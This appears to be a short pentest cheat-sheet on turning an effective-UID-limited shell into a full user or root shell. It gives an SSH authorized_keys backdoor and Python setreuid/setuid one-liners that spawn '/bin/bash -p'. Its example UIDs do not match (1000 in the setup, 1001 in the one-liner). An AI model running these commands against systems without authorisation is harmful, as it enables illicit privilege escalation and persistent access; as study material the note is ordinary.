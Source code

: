 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid

1) using public key authentication technique to escape

-check the .ssh if we have write permission on authorized_keys

-write our own public key into the authorized_keys file

-ssh into the user with our own private key

//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape

current setup
-------------
euid user: 1000(Eve)

uid user: 33 (www-data)

rough idea how it works executing step by step:

$python

\>\>import os

\>\>os.setreuid(1000,1000)	#setreuid(ruid,euid)

\>\>os.system("/bin/bash -p")

one line command:
>python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'

## For root euid

1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:

#python

\>\>import os

\>\>os.setuid(0)

\>\>os.system("/bin/bash -p")

one line command:
>python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'

